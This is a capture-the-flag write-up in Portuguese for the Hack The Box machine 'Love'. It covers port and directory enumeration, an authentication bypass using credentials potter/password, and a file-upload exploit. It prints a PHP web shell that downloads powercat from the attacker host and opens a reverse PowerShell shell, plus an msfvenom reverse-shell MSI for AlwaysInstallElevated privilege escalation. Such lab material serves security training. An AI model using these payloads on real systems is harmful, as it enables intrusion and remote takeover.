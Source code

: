 Love
========================

# Enumeration

    sudo nmap_enum 10.10.10.239 | tee nmap_output.txt
 
 ![qownnotes-media-XWtDKZ](../../../media/qownnotes-media-XWtDKZ.png)

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 10.10.10.239 | tee nmap_udp_output.txt

![qownnotes-media-kjbFEa](../../../media/qownnotes-media-kjbFEa.png)

    sudo nmap -T5 -Pn --script vuln -p 80,135,139,443,445,3306,5000,5985,5986,7680,47001  10.10.10.239

![qownnotes-media-DiPEOy](../../../media/qownnotes-media-DiPEOy.png)
![qownnotes-media-vWxrsU](../../../media/qownnotes-media-vWxrsU.png)
![qownnotes-media-SWVkbt](../../../media/qownnotes-media-SWVkbt.png)

    sudo nmap -p- -Pn -T5 -n 10.10.10.239 | tee nmap_fullportstcp_output.txt

![qownnotes-media-WwvrPw](../../../media/qownnotes-media-WwvrPw.png)

Servicos
[HTTP](Love.md#HTTP)
[RPC](Love.md#RPC)
[SMB](Love.md#SMB)
MYSQL - Nao cheguei a testar


## HTTP

    gobuster dir -u http://10.10.10.239 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x "txt,html,php" -k -t 16 -o "tcp_port_protocol_medium_gobuster.txt"

    gobuster dir -u https://10.10.10.239 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -k -t 16 -o "tcp_port_443_protocol_medium_gobuster.txt"


    firefox http://love.htb

![qownnotes-media-subdJa](../../../media/qownnotes-media-subdJa.png)

    searchsploit voting system

![qownnotes-media-TJINFA](../../../media/qownnotes-media-TJINFA.png)
  
Daqui em diante foi questao de achar um exploit funcional. Prosseguimos para a [Exploracao](Love.md#Exploitation)

## SMB

    smbclient -L //10.10.10.239
    
    smbclient -L //10.10.10.239 -U '' -N
    
    smbclient -L //10.10.10.239 -U ''
    
    enum4linux -a 10.10.10.239
 
 ![qownnotes-media-vIXCRV](../../../media/qownnotes-media-vIXCRV.png)


## RPC
    
    rpcclient -N -U '' 10.10.10.239
    
    enum4linux -a 10.10.10.239

![qownnotes-media-ASjgUv](../../../media/qownnotes-media-ASjgUv.png)

![qownnotes-media-MEOhag](../../../media/qownnotes-media-MEOhag.png)

# Exploitation

Primeiro o bypass da autenticacao:

    searchsploit -x php/webapps/49843.txt

![qownnotes-media-LgSCvh](../../../media/qownnotes-media-LgSCvh.png)

Informei as credenciais abaixo para entrar no sistema e funcionou.

potter
password

Proximo passo e utilizar do exploit de upload de arquivo:

    searchsploit -x php/webapps/49445.py

![qownnotes-media-RmfVfX](../../../media/qownnotes-media-RmfVfX.png)


![qownnotes-media-sugQhq](../../../media/qownnotes-media-sugQhq.png)

Com base nisso, eu subi uma shell reversa no servidor com o seguinte payload:

    <?php system("powershell -c \"IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/powercat.ps1');powercat -c 10.10.14.5 -p 8082 -e powershell\""); ?>
    
![qownnotes-media-dNLOYr](../../../media/qownnotes-media-dNLOYr.png)


<http://love.htb/images/shell2.php>

    python -m http.server 80 --directory ~/owncloud/Area_de_trabalho/tools/windows/5-lateral_movement/powercat

![qownnotes-media-xnEBqA](../../../media/qownnotes-media-xnEBqA.png)

![qownnotes-media-mxjZbI](../../../media/qownnotes-media-mxjZbI.png)

# PrivEsc


#### PowerUp.ps1
    (new-object net.webclient).downloadfile('http://<hostname>/PowerUp.ps1', 'c:\temp\pu.ps1')
    . ./pu.ps1
    invoke-allchecks
    
##### AlwaysInstallElevated

![qownnotes-media-OcpDzT](../../../media/qownnotes-media-OcpDzT.png)

    msfvenom -p windows/shell_reverse_tcp -f msi LHOST=10.10.14.5 LPORT=8084 > shell.msi
    
    copy \\10.10.14.5\smb\shell.msi shell.msi
    msiexec /quiet /qn /i shell.msi

![qownnotes-media-xGOiSx](../../../media/qownnotes-media-xGOiSx.png)
